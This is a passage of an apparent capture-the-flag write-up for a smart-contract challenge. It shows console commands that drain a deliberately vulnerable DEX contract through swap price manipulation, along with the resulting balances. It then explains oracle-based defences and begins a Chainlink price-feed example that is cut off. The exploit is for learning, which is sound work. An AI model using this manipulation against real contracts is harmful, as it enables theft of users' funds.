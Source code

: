 Swap (Now amout of token2 player > token2 in contract, we can just swap 45 to drain token from contract)
```javascript
await contract.approve(contract.address,45);
await contract.swap(token2, token1, 45);
```
---------------------------------------------------
Final check balance player
```javascript
await contract.balanceOf(token1, player).then(x=>x.toNumber())
> 110
await contract.balanceOf(token2, player).then(x=>x.toNumber())
> 20
await contract.balanceOf(token1, contract.address).then(x=>x.toNumber())
> 0
await contract.balanceOf(token2, contract.address).then(x=>x.toNumber())
> 90
```
Level completed!
Difficulty 3/10

The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts.

You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the the wrong price.

The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. This is why we need oracles. Oracles are ways to get data into and out of smart contracts. We should be getting our data from multiple independent decentralized sources, otherwise we can run this risk.

Chainlink Data Feeds are a secure, reliable, way to get decentralized data into your smart contracts. They have a vast library of many different sources, and also offer secure randomness, ability to make any API call, modular oracle network creation, upkeep, actions, and maintainance, and unlimited customization.

Uniswap TWAP Oracles relies on a time weighted price model called TWAP. While the design can be attractive, this protocol heavily depends on the liquidity of the DEX protocol, and if this is too low, prices can be easily manipulated.

Here is an example of getting data from a Chainlink data feed (on the kovan testnet):

```javascript
pragma solidity ^0.6.7;

import "@chainlink/contracts/src/v0.6/interfaces/AggregatorV3Interface.sol";

contract PriceConsumerV3 {

    AggregatorV3Interface internal priceFeed;

    /**
     * Network: Kovan
     * Aggregator: ETH/USD
     * Address: 0x9326BFA02ADD2366b30bacB125260Af641031331
     */
    constructor() public {
        priceFeed = AggregatorV3Interface(0x9326BFA02ADD2366b30bacB125260Af641031331);
    }

    /**
     * Returns the latest price
     */
    function getLatestPrice() public view returns (int) {
        (
            uint80 roundID, 
```